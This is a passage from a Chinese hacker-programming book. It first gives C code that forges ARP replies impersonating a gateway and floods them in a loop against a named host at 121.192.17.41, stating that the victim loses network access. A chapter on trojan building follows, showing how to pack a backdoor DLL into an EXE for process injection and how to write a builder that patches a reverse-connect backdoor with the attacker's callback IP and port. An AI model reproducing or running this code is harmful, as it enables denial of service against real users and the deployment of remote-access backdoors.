首先我们来编程得到本地网卡的 MAC 地址，这里通过调用帮助函数 GetAdaptersInfo 来实现，此函数原型如下：

```c
DWORD GetAdaptersInfo(
    PIP_ADAPTER_INFO pAdapterInfo,
    PULONG pOutBufLen
);
```

pAdapterInfo 参数指向了一个 PIP_ADAPTER_INFO 结构，本结构包含了本地计算机网络适配器的具体信息，当然也包含了适配器的 MAC 地址。

pOutBufLen 参数指向了 PIP_ADAPTER_INFO 结构的缓冲区大小，如果大小不够，则此参数返回所需大小。

如果函数执行成功则返回 ERROR_SUCCESS，并且在 pAdapterInfo 参数中保存了网络适配器的详细信息。

这里把得到的本地 MAC 地址封装成了一个函数，具体如下：

```c
BOOL GetLocMac(unsigned char *macaddr)
{
    PIP_ADAPTER_INFO pAdapterInfo = NULL;
    ULONG uLen = 0;

    // 得到要申请的堆栈空间大小
    GetAdaptersInfo(pAdapterInfo, &uLen);

    // 申请所需的堆栈空间
    pAdapterInfo = (PIP_ADAPTER_INFO)GlobalAlloc(GPTR, uLen);

    // 取得本地适配器结构信息
    if (GetAdaptersInfo(pAdapterInfo, &uLen) == ERROR_SUCCESS)
    {
        if (pAdapterInfo != NULL)
        {
            // 得到本地网卡 MAC 地址
            memcpy(macaddr, pAdapterInfo->Address, 6);
            return TRUE;
        }
    }
    return FALSE;
}
```

得到本地 MAC 地址的问题已经解决了，接下去该解决得到目标主机 MAC 地址的问题了。

这里需要调用 SendARP 函数，通过它可以得到远程主机的 MAC 地址。其函数原型如下：

```c
DWORD SendARP(
    IPAddr DestIP,
    IPAddr SrcIP,
    PULONG pMacAddr,
    PULONG phyAddrLen
);
```

DestIP 参数指定了目标主机的 IP 地址（要得到其 MAC 地址主机的 IP 地址）。

SrcIP 参数指向了发送者的 IP，此参数可以设置为 0。

pMacAddr 参数指向了返回目标主机 MAC 地址的缓冲区。

phyAddrLen 参数指定了 pMacAddr 参数所指向缓冲区的大小。

此函数执行成功返回 NO_ERROR，并且 pMacAddr 参数所指向的缓冲区中存放了目标主机的 MAC 地址。

得到目标主机的 MAC 地址的代码也封装成了一个自定义函数，具体如下：

```c
BOOL GetDesMac(char *szDestIP, unsigned char *macaddr)
{
    // 用来保存目标主机MAC地址
    u_char arDesiMac[6] = {0xff, 0xff, 0xff, 0xff, 0xff, 0xff};
    ULONG ulLen = 6;

    // 得到目标主机MAC地址
    if (SendARP(inet_addr(szDestIP), 0, (ULONG*)&arDesiMac, &ulLen) == NO_ERROR)
    {
        // 把MAC地址输出到参数
        memcpy(macaddr, arDesiMac, 6);
        return TRUE;
    }
    return FALSE;
}
```

下面我们就可以构造攻击数据包了，具体代码如下：

```c
ETHDR  eth;
ARPHDR arp;

// 目标MAC地址
GetDesMac("121.192.17.41", eth.eh_dst);

// 源MAC地址
GetLocMac(eth.eh_src);

// 帧类型
eth.eh_type = htons(0x0806);

// 硬件类型
arp.arp_hdr = htons(0x0001);

// 协议类型
arp.arp_pro = htons(0x0800);

// 硬件地址长度
arp.arp_hln = 6;

// 协议地址长度
arp.arp_pln = 4;

// 操作类型
arp.arp_op = htons(0x0002);

// 发送端MAC地址
GetLocMac(arp.arp_sha);

// 发送端 IP 地址，设为网关的 IP
arp.arp_spa[0] = 121;
arp.arp_spa[1] = 192;
arp.arp_spa[2] = 17;
arp.arp_spa[3] = 1;

// 目标主机 MAC 地址
GetDesMac("121.192.17.41", arp.arp_tha);

// 目标主机 IP 地址
arp.arp_tpa[0] = 121;
arp.arp_tpa[1] = 192;
arp.arp_tpa[2] = 17;
arp.arp_tpa[3] = 41;

char sendbuf[1024] = {0};

// 把以太网首部和 ARP 报文都拷贝到 sendbuf 中组成完整的 ARP 数据包
memcpy(sendbuf, &eth, sizeof(eth));
memcpy(sendbuf + sizeof(eth), &arp, sizeof(arp));
```

这样 ARP 攻击数据包就构造好了，我们剩下的工作只需要把 sendbuf 中的数据发送就 OK 了。

最后学习下如何利用 Packet32 开发包中的函数来发送我们已经构造好的 ARP 数据包，其具体过程如图 20 所示。

从图 20 中可以看到，发送数据的过程其实也并不复杂，只是按照一定顺序调用函数的过程。下面我们就通过学习这些函数来了解这个过程。

首先调用 PacketGetAdapterNames 函数得到现有的网络适配器的列表和它们的描述，此函数原型如下：

```c
BOOLEAN PacketGetAdapterNames(
    PTSTR pStr,
    PULONG BufferSize
);
```

pStr 参数指向了保存网络适配器名称的缓冲区。BufferSize 参数指定了 pStr 参数所指向的缓冲区的大小。如果函数调用成功，返回一个非零值，并且在 pStr 参数所指向的缓冲区中，保存了网络适配器的名称。

调用完这个函数后就得到了所有网络适配器的名字，可能有些主机不止一块网卡，这样会得到多个网络适配器的名字，所以接下来要由用户选择打开哪块网卡。

接着调用 PacketOpenAdapter 函数打开网卡，其函数原型如下：

```c
LPADAPTER PacketOpenAdapter(
    LPTSTR AdapterName
);
```

AdapterName 参数指向了网络适配器的名称，由 PacketGetAdapterNames 函数得到。此函数调用成功则返回一个指针，它指向一个正确初始化了的 ADAPTER 结构，否则返回 NULL。

ADAPTER 结构的定义如下：

```c
typedef struct _ADAPTER
{
    // 一个打开的NPF driver实例的句柄
    HANDLE hFile;
    // 当前打开的网卡的名字
    CHAR SymbolicLink[MAX_LINK_NAME_LENGTH];
    // 在这块网卡上一个数据包被写的次数
    int NumWrites;
    // 这块网卡上的read操作的通知事件
    HANDLE ReadEvent;
    // 设置一个时间，到时如果没有捕获任何包，read操作也会被释放，ReadEvent也会被触发。
    UINT ReadTimeOut;
} ADAPTER, *LPADAPTER;
```

当网卡被成功打开后，就应该调用 PacketAllocatePacket 函数为 PACKET 结构分配空间了，此函数原型如下：

```c
LPPACKET PacketAllocatePacket(void);
```

PacketAllocatePacket 函数无参数，如果执行成功则返回指向 _PACKET 结构的指针，否则返回 NULL。

在由 PacketAllocatePacket 函数返回的 LPPACKET 结构中有指向我们要发送的数据包（sendbuf）的字段，此结构的具体定义如下：

```c
typedef struct _PACKET
{
    // 向后兼容用的
    HANDLE hEvent;
    // 向后兼容用的
    OVERLAPPED Overlapped;
    // 存放要发送数据包的缓冲区，在本程序中即sendbuf
    PVOID Buffer;
    // 缓冲区的大小
    UINT Length;
    // 当前缓冲区中有效的字节数
    DWORD ulBytesReceived;
    // 向后兼容用的
    BOOLEAN bIoComplete;
} PACKET, *LPPACKET;
```

当得到 PACKET 结构指针后，接下来就该调用 PacketInitPacket 函数初始化 PACKET 结构，此函数原型如下：

```c
VOID PacketInitPacket(
    LPPACKET lpPacket,
    PVOID Buffer,
    UINT Length
);
```

lpPacket 参数指向了一个 PACKET 结构，此结构指针由 PacketAllocatePacket 函数返回。Buffer 参数指向了要发送数据包的缓冲区，在本程序中就是 sendbuf。

Length 参数指定了缓冲区的长度。

此函数无返回值。函数执行完成即把 Buffer 参数所指向的缓冲区填充到了 PACKET 结构中的 Buffer 字段。

当 PacketInitPacket 函数调用完成之后，所有的准备工作算是完成了，接下去就是调用 PacketSendPacket 函数发送数据包了。此函数原型如下：

```c
BOOLEAN PacketSendPacket(
    LPADAPTER AdapterObject,
    LPPACKET lpPacket,
    BOOLEAN Sync
);
```

AdapterObject 参数指向一个 _ADAPTER 结构的指针，由 PacketOpenAdapter 函数返回。

lpPacket 参数指向了一个 _PACKET 结构缓冲区，由 PacketAllocatePacket 函数返回。

Sync 参数是为了向后兼容，传递 TRUE 即可。

如果函数执行成功返回一个非零值，否则返回 0。

当数据发送完毕后，我们必须释放打开的网卡。只要调用 PacketCloseAdapter 函数即可，此函数只有一个参数，它指向了由 PacketOpenAdapter 函数返回的 _ADAPTER 结构的指针。

到这里整个过程的实现也就介绍完了，下面一起来看看发送 ARP 攻击数据包的代码：

```c
int main(int argc, char* argv[])
{
    // 存放适配器名称
    char AdapterName[8192];
    ULONG AdapterLength;

    // 得到所有网卡适配器名称
    if (PacketGetAdapterNames(AdapterName, &AdapterLength) == FALSE)
    {
        printf("PacketGetAdapterNames Error.\n");
    }

    int adapternum = 0, open, i;
    char *name1, *name2;
    name1 = AdapterName;
    name2 = AdapterName;
    i = 0;

    // 列举出所有网卡名称
    while ((*name1 != '\0') || (*(name1 - 1) != '\0'))
    {
        if (*name1 == '\0')
        {
            memcpy(adapterList[i], name2, 2 * (name1 - name2));
            name2 = name1 + 1;
            i++;
        }
        name1++;
    }

    adapternum = i;
    printf("Adapters installed:\n");
    // 打印出所有网卡名称
}
```

## 精通黑客编程

```c
for (i = 0; i < adapternum; ++i)
{
    printf("%d. %s\n", i + 1, adapterList[i]);
}

// 由用户选择要打开的网卡
do
{
    printf("\nSelect the number of the adapter to open: ");
    scanf("%d", &open);
    // 输入的网卡号必须比1大，比所有网卡数加1小
    if (open >= 1 && open < adapternum + 1)
        break;
}
while (open < 1 || open > adapternum);

// 打开选择的网卡
LPADAPTER lpadapter = PacketOpenAdapter(adapterList[open - 1]);
if ((!lpadapter) || (lpadapter->hFile == INVALID_HANDLE_VALUE))
{
    printf("PacketOpenAdapter Error\n");
    return -1;
}

LPPACKET lppackets;
// 为LPPACKET结构分配空间
if ((lppackets = PacketAllocatePacket()) == FALSE)
{
    printf("PacketAllocatePacket Send Error\n");
    return -1;
}

// ********构造ARP攻击数据包********

// 初始化LPPACKET结构
PacketInitPacket(lppackets, sendbuf, sizeof(eth) + sizeof(arp));

// 循环发送ARP攻击数据包
for (;;)
{
    if (PacketSendPacket(lpadapter, lppackets, TRUE) == FALSE)
    {
        printf("PacketSendPacket in arpspoof Error: %d\n", GetLastError());
        return -1;
    }
    Sleep(100);
}

// 关闭打开的网卡
PacketCloseAdapter(lpadapter);

return 0;
```

本程序源码在光盘“第六章\myarp”下，执行本程序后 IP 为 121.192.17.41 的电脑就无法上网了。

## 第七章 黑客程序的配置和配置信息的保护

- 文件生成技术
- 黑客程序的配置
- 配置信息的保护

### 7.1 文件生成技术

- 前置知识：C/C++ 基础、文件操作编程
- 难度：简单
- 编译环境：VC++ 6.0
- 测试环境：Windows XP

从学习第一章黑客编程基础到现在，大家已经经过了六章的学习，相信现在已经可以编写一个功能强大的黑客程序了。前面章节中的不少编程实例都利用了 DLL 文件，比如远程线程技术、键盘记录……一般情况下都要有一个 EXE 程序来加载这个 DLL 文件，其中的代码才会执行。这样就产生了一个程序包含多个文件的情况，比如一个插入远程进程的程序，就包含一个 EXE 文件和一个 DLL 文件。

对于普通应用程序来说，一个程序包含多个文件并不会产生什么不良后果，但是对于黑客程序来说，这会给用户带来许多不便，比如上传问题（一次要上传多个文件）、文件放置问题（假如 DLL 文件放置的目录出错，就会导致整个程序运行错误）。

本小节将为大家讲述如何将多个文件变成一个文件。当然，“多个文件变成一个文件”的说法只是对表面现象的描述，因为多个文件整合成一个文件后，当程序运行时，由于其它文件没法加载，是会运行出错的。

“多个文件变成一个文件”的实质就是在编译时把多个文件整合成一个文件，运行后释放原来整合的文件到相应目录，最后程序才执行自身功能。比如现在有一个 DLL 文件和一个 EXE 文件，我们先把 DLL 文件包含在 EXE 文件中，当 EXE 程序一运行就把包含的 DLL 文件释放到相应的目录，这样 DLL 文件又可以被正常调用了。

#### 7.1.1 资源法生成文件

> **编程小贴士**  
> **什么是 PE 文件资源？**  
> PE 文件中的资源包括图片、声音、视频等一些信息，计算机上任何可以文件形式存在的数据都可以做成资源包含在 PE 文件中，这些资源可以在 PE 文件载入内存运行时被自身访问、修改。一般资源都包含在名为 `.rsrc` 的节中。

当然这里的资源法中涉及的资源就是指 PE 文件中的资源。其实用资源法生成文件的思路非常简单，我们就以第三章中的插入进程的后门为例，教大家利用资源法来生成文件。在这个例子中包含了两个文件，一个 EXE 文件和一个 DLL 文件，我们要做的就是在 EXE 文件编译时，把 DLL 文件作为它的资源一起编译。编译完成后，DLL 文件就会以 PE 资源的形式包含在 EXE 文件中。

当然这样编译之后，我们在 EXE 文件的工程中也需要添加新的代码，这些代码必须在 EXE 程序调用 DLL 文件前开始执行，因为这些代码完成了把资源导出成为一个 DLL 文件的工作。具体过程如图 1 所示。

我们先来实现把 DLL 文件以资源的形式包含在 EXE 文件中的操作。在工程根目录下新建一个名为 `resource.h` 的文件，在此文件中添加如下内容：

```c
#define RC_DLL 256
#define ID_BACKDOOR_DLL 100
```

同时还需要在工程根目录下新建一个名为 `res.rc` 的文件，并且在此文件中添加如下内容：

```rc
#include "resource.h"
ID_BACKDOOR_DLL "RC-DLL" BackDoorDll.dll
```

在这里，`RC_DLL` 表示资源类型，而 `ID_BACKDOOR_DLL` 则表示资源 ID；`BackDoorDll.dll` 是要以资源形式包含在 EXE 文件中的 DLL 文件名。

当然，完成这些操作之后还需要把 `BackDoorDll.dll` 复制到工程根目录。最后我们还需要修改相关工程文件，让工程包含 `res.rc` 和 `resource.h` 这两个文件。由于 `resource.h` 是头文件，所以我们只需要在 `InjectDll.cpp` 中添加语句：`#include "resource.h"` 即可。

而要让工程包含 `res.rc` 文件，我们可以右击“injectDll files”，选择“添加文件到工程”，然后选择刚才建立的 `res.rc` 文件，如图 2 所示。

编译之后你会发现 EXE 文件的容量比原来大了许多（DLL 文件以资源的形式包含进去了，当然文件容量会大许多）。这样，我们把 DLL 文件以资源的形式包含在 EXE 文件中就这么简简单单地完成了。接下来就教大家如何把资源导出成为 DLL 文件。

在开始写释放资源的代码之前，我们先来了解下几个对资源操作的 API 函数，下面的操作中也会用到这几个函数。首先我们来了解 `FindResource` 函数，这个函数是用来寻找模块中的资源的。此函数的函数原型如下：

```c
HRSRC FindResource(
    HMODULE hModule,
    LPCTSTR lpName,
    LPCTSTR lpType
);
```

- `hModule` 参数指向了要查找模块的句柄，对本进程操作传递 `NULL` 即可。
- `lpName` 参数指向了要查找资源的名称。
- `lpType` 参数指向了要查找资源的类型。
- 如果函数调用成功，返回要查找的资源信息块的句柄，调用失败则返回 `NULL`。

我们再来看看 `LoadResource` 函数，该函数用于装载指定资源到全局存储器，函数原型如下：

```c
HGLOBAL LoadResource(
    HMODULE hModule,
    HRSRC hResInfo
);
```

这个函数有两个参数，`hModule` 参数同 `FindResource` 函数的第一个参数相同，而 `hResInfo` 参数指向了将被装载资源的句柄，由 `FindResource` 函数返回。

如果函数调用成功，返回相关资源的句柄，调用失败则返回 `NULL`。

接着需要了解一个比较关键的函数 `LockResource`，此函数用来锁定内存中的资源，函数原型如下：

```c
LPVOID LockResource(
    HGLOBAL hResData
);
```

此函数只有一个参数，它指向了被装载资源的句柄，由 `LoadResource` 函数返回。如果函数调用成功，返回资源第一个字节的指针，调用失败则返回 `NULL`。

最后是 `SizeofResource` 函数，此函数用来得到指定资源的字节数大小。函数原型如下：

```c
DWORD SizeofResource(
    HMODULE hModule,
    HRSRC hResInfo
);
```

`hModule` 参数和 `FindResource` 函数的第一个参数相同。  
`hResInfo` 参数指向了将被装载资源的句柄，由 `FindResource` 函数返回。  
如果函数调用成功，返回指定资源的字节数，如果调用失败则返回零。

了解了资源操作的函数后，接下来我们看一下把资源导出成文件操作在编程中的具体流程，如图 3 所示。

从图 3 中可以看到整个过程并不复杂，只不过是几个 API 函数的依次调用。这里我把这个过程封装成了一个函数，具体代码如下（源码在光盘“第七章\资源法\InjectDll”下）：

```c
void ResourceToFile(char *filename, char *Name, char *Type)
{
    // 寻找自身进程中的资源
    HRSRC hRes = FindResource(NULL, Name, Type);
    if (hRes == NULL)
        return;

    // 装载资源
    HGLOBAL hgRes = LoadResource(NULL, hRes);
    if (hgRes == NULL)
        return;

    // 锁定资源
    void *pRes = LockResource(hgRes);
    if (pRes == NULL)
        return;

    // 得到资源字节数
    DWORD size = SizeofResource(NULL, hRes);
    if (size == 0)
        return;

    // 创建文件
    HANDLE hFile = CreateFile(filename, GENERIC_WRITE, 0, 0,
        CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
    if (hFile == INVALID_HANDLE_VALUE)
        return;

    DWORD dwWrite;

    // 把资源写入到文件
    if (!WriteFile(hFile, pRes, size, &dwWrite, 0))
        return;

    // 关闭文件句柄
    CloseHandle(hFile);

    // 释放资源
    GlobalFree(hRes);
}
```

`ResourceToFile` 函数中的 `filename` 参数指向了要创建的 DLL 的文件名；`Name` 参数指定了资源名；`Type` 参数指向了资源的类型。

此函数在 `WinMain` 函数中可以做如下调用：

```cpp
char DllPath[256];

// 得到程序自身路径
GetCurrentDirectory(sizeof(DllPath), DllPath);

// 得到 DLL 带路径文件名
strcat(DllPath, "\\BackDoorDll.dll");

// 把资源导出成为 DLL 文件
ResourceToFile(DllPath, MAKEINTRESOURCE(ID_BACKDOOR_DLL),
    MAKEINTRESOURCE(RC_DLL));

// 注入进程
InjectDll(DllPath, Pid);
```

上面代码中的 `MAKEINTRESOURCE` 是一个宏，用于把整型数据转换成字符串型数据。

#### 7.1.2 附加文件法生成文件

除了用资源法生成文件外，还有一种常用的方法可以生成文件，这种方法到目前为止还没有统一的命名，在这里我就把它叫做附加文件法。

那么什么是附加文件法呢？

附加文件法就是在 EXE 文件末尾写入 DLL 文件的数据，当 EXE 运行时就创建一个 DLL 文件，读取自身文件末尾的 DLL 部分，并且把这部分数据写入创建的 DLL 文件中。

本小节还是以插入远程进程的后门为例，它包含两个文件，一个 EXE 文件和一个 DLL 文件，而我们需要实现的是把这两个文件整合成一个文件，当这个文件载入内存开始运行时就把 DLL 导出成为磁盘文件。

这个过程具体怎么实现呢？我们可以分两步来完成，具体如图 4 所示。

首先我们来看第一部分，利用外部程序把 DLL 文件中的所有数据写入到 EXE 文件的末尾，这样两个文件就整合成一个文件了。

既然第一部分两个文件已经整合了，那么第二部分就应该考虑当程序运行后，如何把 DLL 文件部分导出成新的 DLL 文件。要完成这一部分，就必须在 EXE 文件调用 DLL 文件前，通过读取自身文件末尾的 DLL 部分，把读到的数据写入新建的 DLL 文件。

说了那么多，现在我们开始实际操作吧。首先我们来看第一部分，它相对来说比较简单，只需要利用 WinHex 之类的 16 进制编辑软件把 DLL 文件附加到 EXE 文件末尾即可。但是这毕竟是本编程书籍，直接利用 WinHex 来完成文件附加操作似乎有点对不起大家，所以我们还是通过编写一个程序来完成两个文件的合并吧。先看具体流程，如图 5 所示。

从图 5 中可以看出，程序反复地读取 DLL 文件，每次读取 2800 字节，并且把读到的数据写入到 EXE 文件末尾。假如读到的实际数据大小少于 2800 字节，则说明 DLL 文件已经读到末尾了，只需要把这次读到的数据写入 EXE 文件就完成了两个文件的整合。

下面是程序的具体代码（源码在光盘“第七章\附加文件法\ToOneFile”下）：

```c
#include <windows.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
    // 只读方式打开DLL文件
    HANDLE nhFile = CreateFile(argv[1], GENERIC_READ, FILE_SHARE_READ, NULL,
                               OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (nhFile == INVALID_HANDLE_VALUE)
    {
        printf("CreateFile error\n");
        return 0;
    }

    // 只写方式打开EXE文件
    HANDLE shFile = CreateFile(argv[2], GENERIC_WRITE, FILE_SHARE_READ, NULL,
                               OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (shFile == INVALID_HANDLE_VALUE)
    {
        printf("CreateFile error\n");
        return 0;
    }

    // 把EXE文件的指针移动到文件末尾
    if (SetFilePointer(shFile, 0, NULL, FILE_END) == -1)
    {
        printf("SetFilePointer error\n");
        return 0;
    }

    char buff[2800] = {0};

    // 定义变量
    DWORD dwRead;
    DWORD dwWrite;
    while (1)
    {
        // 每次读取2800字节
        if (!ReadFile(nhFile, buff, 2800, &dwRead, NULL))
        {
            printf("ReadFile error\n");
            return 0;
        }

        // 读到的实际值小于2800字节
        if (dwRead < 2800)
        {
            // 写入实际读到的字节数
            if (!WriteFile(shFile, buff, dwRead, &dwWrite, NULL))
            {
                printf("WriteFile error\n");
                return 0;
            }
            // 跳出循环
            break;
        }

        // 写入读到的2800字节
        if (!WriteFile(shFile, buff, 2800, &dwWrite, NULL))
        {
            printf("WriteFile error\n");
            return 0;
        }
    }

    printf("合并文件成功\n");
    // 关闭文件句柄
    CloseHandle(shFile);
    CloseHandle(nhFile);
    return 0;
}
```

在本实例中只需要执行命令 `ToOneFile.exe BackDoorDll.dll InjectDll.exe` 就完成两个文件的整合了。

当然现在还不能整合，因为现在 `InjectDll.exe` 还没有实现导出 DLL 文件的功能，我们必须加入此功能代码，编译生成新的 `InjectDll.exe` 后才能利用 `ToOneFile.exe` 进行文件合并。快来开始完成第二部分工作吧！

其实这部分代码和第一部分的代码非常相似，第一部分代码中读取的是 DLL 文件的数据，这部分代码中读入的是自身文件中 DLL 部分数据；第一部分的代码中要对 EXE 文件末尾进行写入，这部分的代码要对新的 DLL 文件进行写入。

此部分的代码如下（源码在光盘“第七章\附加文件法\InjectDll”下）：

```c
// 得到自身文件名
GetModuleFileName(NULL, szName, 256);

// 只读方式打开自身文件
HANDLE shFile = CreateFile(szName, GENERIC_READ, FILE_SHARE_READ, NULL,
                           OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (shFile == INVALID_HANDLE_VALUE)
{
    printf("CreateFile error\n");
    return 0;
}

// 创建DLL文件
HANDLE hFile = CreateFile(DllPath, GENERIC_WRITE, 0, NULL,
                          CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE)
{
    printf("CreateFile error\n");
    return 0;
}

// 移动文件指针到DLL部分
if (SetFilePointer(shFile, -49152, NULL, FILE_END) == -1)
{
    printf("SetFilePointer error\n");
    return 0;
}

char buff[2800] = {0};
DWORD dwRead;
DWORD dwWrite;
while (1)
{
    // 读取2800字节
    if (!ReadFile(shFile, buff, 2800, &dwRead, NULL))
    {
        printf("ReadFile error\n");
        return 0;
    }

    if (dwRead < 2800)
    {
        if (!WriteFile(hFile, buff, dwRead, &dwWrite, NULL))
        {
            printf("WriteFile error\n");
            return 0;
        }
        break;
    }

    if (!WriteFile(hFile, buff, 2800, &dwWrite, NULL))
    {
        printf("WriteFile error\n");
        return 0;
    }
}

CloseHandle(hFile);
CloseHandle(shFile);
```

上面代码中有这么一句：`if(SetFilePointer(shFile,-49152,NULL,FILE_END)==-1)`，第二个参数 `49152` 是 DLL 文件的大小，这样指针就移动到了 DLL 文件部分了。

编译完成后，我们可以执行 `ToOneFile.exe BackDoorDll.dll InjectDll.exe` 命令把两个文件进行整合，如图 6 所示。

现在运行 InjectDll.exe 就会在程序根目录下生成 BackDoorDll.dll 了。


图6

### 7.2 黑客程序的配置

- 前置知识：C/C++基础、文件操作编程、资源操作编程
- 难度：简单
- 编译环境：VC++6.0
- 测试环境：Windows XP

学了这么长时间的黑客编程，大家可能会有这样的问题：现在使用的木马或后门程序，都要由客户端配置生成木马或后门的服务端（如图7所示），在这里可以填写一些配置信息，比如反向连接的IP、自启动的方式等，以适合不同用户的需要。而我们现在编写的黑客程序，要改变这些信息，必须通过修改源码、重新编译才能实现。那么怎样才能像图7中那样点击“生成服务端”，就能生成包含自定义配置信息的后门或木马程序呢？

本小节我们就来学习如何编写程序来配置后门，解决你心中的这个问题。


图7

#### 7.2.1 数据替换法

数据替换，顾名思义就是用现有的数据，覆盖掉原来的数据。那么到底要怎么替换？替换哪些数据？为什么可以替换呢？

在第二章《零管道反向连接后门》中，有这么一句代码：

```c
sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
```

这句代码是用来设置反向连接的目标IP的，这里是“127.0.0.1”，而源码最终会被编译器编译成EXE文件。EXE文件运行时，肯定要利用“127.0.0.1”这段数据，而这段数据会保存在哪里呢？它就存在于EXE文件中，用 WinHex 打开 EXE 文件搜索字符串“127.0.0.1”就能得到明确结果，如图8所示。


图8

##### 数据替换配置程序

反向连接的IP地址就变成“192.168.2.1”了。

但是大家可能忽略了一个问题，“127.0.0.1”的长度是9个字节，而“192.168.2.1”的长度是11个字节。假如用“192.168.2.1”替换“127.0.0.1”，那么“127.0.0.1”后的两个字节长度的数据也会被“192.168.2.1”覆盖。如果这两个字节的数据在程序中有其他用处，那么程序很可能因为这两个字节的替换而崩溃。所以仅仅这样子替换是一种不安全的做法，我们再来看下面的代码：

```c
char Ip[256] = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
sin.sin_addr.S_un.S_addr = inet_addr(Ip);
```

假如代码改成这样之后，再进行数据替换又会如何呢？IP变量中包含了32字节长度的B字符串，而这个变量又是作为反向连接的目标IP的，那么当源码编译后，32字节长度的B就会存在于EXE文件中。

假如现在我们定义一个变量，如 `char mIp[256] = "192.168.2.1";`，并且用 mIp 的数据替换 EXE 中的那么多B，那么当被替换成功的EXE文件运行后，Ip变量中的数据变成了什么呢？可能很多读者会认为是“192.168.1.2BBBB……”，其实并不是这样的，这时候Ip变量中的数据是“192.168.1.2”！

为什么呢？因为在 Windows 中字符串是以 0x00 结尾的，当写入 mIp 的时候，在“192.168.1.2”后还写入了一个字节0x00，所以程序运行后 Ip 变量的数据就在“192.168.1.2”后的0x00处被截断，Ip变量所表示的数据就是“192.168.2.1”了。经过这样处理之后，我们就解决了其他数据会被覆盖的问题，因为32字节长度足够存储一个IP了。

对于反向连接后门来说，还有一个重要的配置信息，那就是反向连接的端口。我们先来看一下端口号在源码中是怎么赋值的：

```c
sin.sin_port = htons(4500);
```

从上面代码中我们可以看到，端口号4500是以一个整型数据的形式存在的。根据上面的原理，我们只需要把EXE文件中整型数据4500替换成其他端口就可以了。但是由于4500是一个整型数据，可能在EXE文件中存在多个数值为4500的数据，那么到底哪个才是对应端口号4500呢？这是很难定位的，所以这种方法可行性并不强，不过也有方法来解决。我们先看如下代码：

```c
char Port[256] = "AAAAAAAAAAAAAAAA";
sin.sin_port = htons(atoi(Port));
```

代码的思路很简单，把端口变量 Port 定义为一段字符串A，然后我们只需要把编译后的EXE程序中的这段A替换成端口号的字符串，比如替换成“1250”。这样替换成功的EXE程序运行后，atoi()函数会把字符串“1250”转换成整型1250，我们的问题也就轻松地解决了。

后门服务端做以上修改就可以了，修改好的源码在光盘“第七章\数据替换法\NoPipe-Door2”下，欢迎大家研究。

下面我们就来完成配置程序吧！配置程序要实现的工作有两项：第一项是生成一个后门服务端程序；还有一项是修改反向连接端口和IP。

在开始着手实现这两项工作之前，我们首先用MFC生成一个窗口程序。运行 VC++6.0，单击“文件”，选择“新建”，打开新建对话框，然后选择“MFC AppWizard[exe]”，如图9所示。

输入工程名称“native”，点击“确定”，出现了“MFC应用程序向导”，选择“基本对话框”，然后点击“完成”，如图10所示。


这样一个基本的MFC工程就建立完毕了。下面我们把界面上的两个按钮和一个静态文本框删掉，然后画上两个静态文本框、两个文本框和一个按钮，具体如图11所示。接着就要为两个文本框添加成员变量了，单击菜单栏上的“查看”，选择“建立类向导”，打开类向导对话框，选择“Member Variables”，点击“Add Variable”，分别为 IDC_EDIT1 和 IDC_EDIT2 添加成员变量 m_Ip 和 m_Port，如图12所示。


然后再选择“Message Maps”选项卡，在“Object IDs”选项框中选择“IDC_BUTTON1”，在“Messages”选择框中选择“BN_CLICKED”。单击“Add Function”，出现“Add Member Function”窗口，为按钮的单击事件添加函数 OnShengCheng，如图13所示。再点击“OK”后函数添加成功，如图14所示。


现在点击“Edit Code”就可以为单击事件添加代码了。单击事件要完成的任务也就是上面提到的两项：第一项是生成一个后门服务端程序；还有一项是修改反向连接端口和IP。生成一个后门服务端程序可以用上一小节讲的资源法和附加文件法，这里我们就用资源法了。我们先来看看要完成这两项工作的流程图，如图15所示。

从图15可知，我们的思路是把资源写入到另一块我们申请的大小相同的内存空间，然后通过遍历这块内存数据，修改配置信息，最后把这块内存数据保存成文件。


可能有人会疑惑了，资源本来就在内存中，为什么还要把它写到另一个内存空间呢？这是因为资源所在的内存地址是不可写的！当然，如果修改内存页保护属性也是可以的。

在具体实现上面的步骤之前，我们还必须把后门程序作为资源导入到工程中。在MFC工程中，这项工作就变得非常简单了。首先点击 VC++6.0 窗口左边的资源选项卡，右击“native resources”，选择“引入”，如图16所示。

出现“引入资源”窗口，选择要引入的后门程序，单击“引入”，出现“自定义资源类型”窗口。在“资源类型”文本框中输入“EXE”，如图17所示。

然后单击“确定”，在左边“native resources”下就会多出一项，如图18所示。


到这里后门程序已经成功地以资源的形式导入到工程中了。图18中的“EXE”是指资源类型，IDR_EXE1是资源ID。下面我们就可以编写“生成”按钮单击事件的代码了，具体代码如下（程序源码在光盘“第七章\数据替换法\native”下）：

```cpp
void CNativeDlg::OnShengCheng()
{
    // 获得文本框的内容
    UpdateData(TRUE);
    char *lpmem;
    DWORD size;
    // ...（后续代码）
}
```

```cpp
HRSRC hRes = FindResource(NULL, MAKEINTRESOURCE(IDR_EXE1), "EXE");
// 导入资源
HGLOBAL hgRes = LoadResource(NULL, hRes);
// 锁定资源
void *pRes = LockResource(hgRes);
// 得到资源大小
DWORD size = SizeofResource(NULL, hRes);
// 申请内存空间
hmem = (char *)malloc(size + 1);
// 把资源文件写入新申请的内存空间
WriteProcessMemory(GetCurrentProcess(), hmem, pRes, size, &size2);

char Port[256] = "AAAAAAAAAAAAAAAAAAAAAA";
char Ip[256] = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";

// 遍历内存空间替换配置信息
if (!FindMem(hmem, size, Port, m_Port, GetBuffer(m_Port.GetLength()))) {
    MessageBox(NULL, "写入IP错误！", "错误", NULL);
    return;
}

// 遍历内存空间替换配置信息
if (!FindMem(hmem, size, Ip, m_Ip, GetBuffer(m_Ip.GetLength()))) {
    MessageBox(NULL, "写入IP错误！", "错误", NULL);
    return;
}

// 创建文件
HANDLE hFile = CreateFile("door.exe", GENERIC_WRITE,
    0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
DWORD dwWrite;
// 把内存中的数据写入文件
WriteFile(hFile, (void*)hmem, size, &dwWrite, 0);
// 关闭文件句柄
CloseHandle(hFile);
// 释放资源句柄
GlobalFree(hgRes);
